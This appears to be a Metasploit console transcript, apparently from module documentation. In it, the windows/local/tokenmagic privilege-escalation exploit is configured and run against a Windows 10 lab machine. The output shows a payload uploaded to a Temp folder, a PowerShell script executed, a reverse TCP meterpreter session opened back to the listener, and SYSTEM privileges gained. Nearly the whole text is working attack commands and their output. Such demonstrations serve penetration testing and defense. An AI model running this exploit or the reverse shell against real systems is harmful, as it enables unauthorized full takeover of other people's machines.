 ```
   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf6 exploit(windows/local/tokenmagic) > set lhost 172.16.199.1
lhost => 172.16.199.1
msf6 exploit(windows/local/tokenmagic) > set lport 4443
lport => 4443
msf6 exploit(windows/local/tokenmagic) > set session 2
session => 2
msf6 exploit(windows/local/tokenmagic) > run

[*] Started reverse TCP handler on 172.16.199.1:4443
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable.
[*] Checking Target
[*] Attempting to PrivEsc on DESKTOP-O5RD7G3 via session ID: 2
[*] Uploading payload to C:\Users\msfuser\AppData\Local\Temp\dbfkhe.exe
[*] Running Exploit on DESKTOP-O5RD7G3
[*] Executing TokenMagic PowerShell script
[+] Enjoy the shell!
[*] Sending stage (200262 bytes) to 172.16.199.135
[+] Deleted C:\Users\msfuser\AppData\Local\Temp\dbfkhe.exe
[*] Meterpreter session 3 opened (172.16.199.1:4443 -> 172.16.199.135:49876) at 2021-05-14 12:19:24 -0400

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : DESKTOP-O5RD7G3
OS              : Windows 10 (10.0 Build 17134).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 3
Meterpreter     : x64/windows
meterpreter >
```
